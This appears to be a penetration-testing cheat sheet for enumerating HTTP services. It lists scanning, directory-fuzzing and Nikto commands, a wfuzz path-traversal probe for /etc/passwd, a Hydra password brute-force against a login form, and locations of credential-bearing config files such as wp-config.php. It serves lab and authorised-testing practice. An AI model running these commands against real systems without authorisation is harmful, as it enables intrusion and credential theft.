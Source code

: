 ```yaml
---
layout: default
title: 80 | HTTP
nav_order: 3
---
```


# 80 | HTTP

---

## Initial Checklist

- [ ] /robots.txt
- [ ] /.DS_STORE
- [ ] /.svn
- [ ] /sitemap.xml
- [ ] /crossdomain.xml
- [ ] /clientaccesspolicy.xml
- [ ] Check comments in source code
- [ ] Review certificates of HTTPS sites

## Nmap Vuln Scan

```bash
nmap --script vuln -p80,443 -oA vuln-scan 10.10.10.79
```

## http

Returns the http header

```bash
http 10.10.242.194
```

## Whatweb

```bash
whatweb 10.10.242.194
```

![whatweb](../../../assets/images/whatweb.png)

## Gobuster

```bash
# Seclists
gobuster dir -u http://10.10.10.187/utility-scripts -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php,txt,html -t 80

# Dirbuster lowercase medium
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x aspx, php, txt, conf - t 80

# CGI-Bin for Shellshock
gobuster dir -u http://192.168.202.83:8088/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -k -t 80 -x sh,cgi
```

Common Flags:

- -k: skip SSL certificate verification
- -t: number of threads (default = 10)
- -w: path to wordlist
- -f: append '/' to each request
- -x: file extension to search for
- -U: username for basic auth
- -P: password for basic auth

## wfuzz

### Fuzzing files

```bash
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "http://192.168.202.83/FUZZ"
```

### Fuzzing directories

```bash
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "http://192.168.202.83/FUZZ"
```

### Fuzz Keyword for LFI Fuzzing

```bash
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 0 "http://192.168.202.80/console/file.php?FUZZ=../../../../../../../etc/passwd"
```

- --hh: hush hush; ignore 0 character byte responses (double dash)

## Hydra Brute Force

Brute force HTTP Login page if there is not a CSRF token

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 209.97.132.64 -s 31009 http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='login'"
```

## Nikto

```bash
nikto -o 'output.txt' -p 80 -h 10.10.10.161
```

## Cewl

Wordlist creator based on website keywords

```bash
cewl http://10.10.10.161 -w output.txt
```

## Common Web Config Files

### PHPInfo

- phpinfo.php
- Shows lots of useful information, including the DOCUMENT_ROOT path

![phpinfo](../../../assets/images/phpinfo.png)

### Wordpress PHP Config

- /var/www/html
- wp-config.php
- Should contain 'db-user' password

### PHPmyAdmin

- /etc/phpmyadmin
- config-db.php

if this is installed with WordPress, the 'wordpress' user might have access (wp-config.php)
{: .warn }
